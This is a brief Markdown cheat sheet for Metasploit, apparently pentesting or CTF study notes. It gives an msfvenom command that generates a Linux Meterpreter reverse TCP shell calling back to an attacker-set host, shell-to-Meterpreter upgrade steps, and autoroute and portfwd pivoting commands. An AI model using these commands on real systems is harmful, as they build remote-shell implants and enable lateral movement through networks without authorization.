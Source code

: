 # Metasploit

## meterpreter

### Payload generation

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f elf -o rev
```

### Upgrading to meterpreter

- Use the `post/multi/manage/shell_to_meterpreter` module to upgrade.
- Use `sessions -u id` to upgrade a session.

## pivoting

```shell
run autoroute -s 10.10.10.0/24
```

```shell
run autoroute -p
```

```shell
portfwd add -l 1234 -p 80 -r $ip
```
